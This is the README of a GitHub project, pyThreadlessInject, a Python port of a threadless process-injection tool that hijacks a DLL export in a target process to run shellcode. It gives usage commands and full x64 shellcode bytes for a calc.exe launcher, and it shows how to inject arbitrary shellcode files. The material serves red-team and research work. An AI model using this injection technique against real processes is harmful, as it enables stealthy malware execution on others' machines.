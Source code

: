 # pyThreadlessInject

A python port of CCob's [ThreadlessInject](https://github.com/CCob/ThreadlessInject), because why should C# have all the fun?!

## Commandline usage

### Help

```cmd
python .\threadlessinject.py -h
```

### Basic execution (uses calc.exe shellcode by default)

```cmd
python .\threadlessinject.py -d ntdll.dll -e NtTerminateProcess -p 10184 
```

### Executing base64 encoded shellcode

```cmd
python .\threadlessinject.py -d ntdll.dll -e NtTerminateProcess -p 10184 -r U1ZXVVRYZoPk8FBqYFpoY2FsY1RZSCnUZUiLMkiLdhhIi3YQSK1IizBIi34wA1c8i1wXKIt0HyBIAf6LVB8kD7csF41SAq2BPAdXaW5Fde+LdB8cSAH+izSuSAH3mf/XSIPEaFxdX15bww==
```

### Executing shellcode from file

```cmd
python .\threadlessinject.py -d ntdll.dll -e NtTerminateProcess -p 10184 -f c:\Users\IEUser\Downloads\shellcode.bin
```

## Programmatic usage

### Basic execution (uses calc.exe shellcode by default, and wait time of 60 seconds)

```python
import threadlessinject
dll = b'ntdll.dll'
export = b'NtTerminateProcess'
pid = 10184
threadlessinject.threadlessInject(dll, export, pid)
```

### Executing shellcode with custom wait time (only accept raw bytes of shellcode)

```python
import threadlessinject
dll = b'ntdll.dll'
export = b'NtTerminateProcess'
pid = 10184
wait = 120
shellcode = b"\x53\x56\x57\x55\x54\x58\x66\x83\xE4\xF0\x50\x6A\x60\x5A\x68\x63\x61\x6C\x63\x54\x59\x48\x29\xD4\x65\x48\x8B\x32\x48\x8B\x76\x18\x48\x8B\x76\x10\x48\xAD\x48\x8B\x30\x48\x8B\x7E\x30\x03\x57\x3C\x8B\x5C\x17\x28\x8B\x74\x1F\x20\x48\x01\xFE\x8B\x54\x1F\x24\x0F\xB7\x2C\x17\x8D\x52\x02\xAD\x81\x3C\x07\x57\x69\x6E\x45\x75\xEF\x8B\x74\x1F\x1C\x48\x01\xFE\x8B\x34\xAE\x48\x01\xF7\x99\xFF\xD7\x48\x83\xC4\x68\x5C\x5D\x5F\x5E\x5B\xC3"
threadlessinject.threadlessInject(dll, export, pid, waitTime=wait, shellcodeBytes=shellcode)
```

## Commandline args

- -h/--help&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Provides help menu`
- -d/--dll&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; `The DLL that that contains the export to patch (must be KnownDll)`
- -e/--export&nbsp; &nbsp; &nbsp; `The exported function that will be hijacked`
- -p/--pid&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Target process ID to inject`
- -w/--wait&nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Time to wait for execution before cleanup will be abandoned`
- -r/--raw&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp;`Base64 for x64 shellcode payload (default: calc launcher)`
- -f/--file&nbsp; &nbsp; &nbsp; &nbsp; &nbsp; &nbsp; `File for x64 shellcode payload (default: calc launcher)`

## Gotchas

As mentioned in the last programmatic example, when the shellcodeBytes arg is supplied, it must be the bytes of the actual shellcode to be injected, when calling threadlessinject from cmd it converts the raw or file arguments into the shellcode needed for execution.

Also, for commandline usage, the -r and -f arguments are mutually exclusive (you cannot provide both at the same time.)

## Thanks

[CCob](https://github.com/CCob) for the [ThreadlessInject](https://github.com/CCob/ThreadlessInject) project, which this is ported from

[Rasta Mouse](https://github.com/rasta-mouse) for their work on [ThreadlessInject](https://github.com/CCob/ThreadlessInject) as well

[natesubra](https://github.com/natesubra) for showing me the [ThreadlessInject](https://github.com/CCob/ThreadlessInject) project in the first place, such a cool project I wanted to try and understand it better, hence this repo
